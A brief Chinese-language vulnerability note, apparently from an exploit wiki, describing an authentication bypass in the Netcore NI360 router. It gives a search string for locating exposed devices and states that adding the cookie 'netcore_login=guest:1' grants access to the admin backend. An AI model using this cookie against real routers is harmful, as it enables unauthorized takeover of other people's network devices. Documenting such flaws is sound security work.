 # 磊科 NI360路由器 认证绕过漏洞

# 磊科 NI360路由器 认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

```
磊科 NI360路由器
```

## 网络测绘

```
title="Netcore"
```

## 漏洞描述

登录页面如下

![](/images/202202110949810.png)

添加 Cookie字段 : **netcore_login=guest:1**

刷新后登录后台

![](/images/202202110949667.png)

